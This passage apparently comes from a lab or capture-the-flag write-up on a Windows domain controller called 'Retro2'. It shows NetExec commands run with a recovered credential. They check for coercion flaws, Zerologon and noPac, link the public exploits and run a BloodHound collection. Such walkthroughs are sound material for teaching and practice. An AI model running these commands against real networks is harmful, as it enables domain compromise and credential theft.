 There is many weaknesses in this target as a example : 

```sh
$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M coerce_plus
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, DFSCoerce
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, PetitPotam
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, MSEven

$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M zerologon  
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
ZEROLOGON   10.10.65.246    445    BLN01            VULNERABLE
ZEROLOGON   10.10.65.246    445    BLN01            Next step: https://github.com/dirkjanm/CVE-2020-1472

$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M nopac       
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
NOPAC       10.10.65.246    445    BLN01            TGT with PAC size 1427
NOPAC       10.10.65.246    445    BLN01            TGT without PAC size 694
NOPAC       10.10.65.246    445    BLN01            
NOPAC       10.10.65.246    445    BLN01            VULNERABLE
NOPAC       10.10.65.246    445    BLN01            Next step: https://github.com/Ridter/noPac
```

### BloodHound

```sh
nxc ldap 10.10.65.246 -u 'ldapreader' -p 'ppYaVcB5R'  --bloodhound --dns-server 10.10.65.246 -c All --dns-tcp
```

![Alt text](/images/Retro2/bloodhound.png)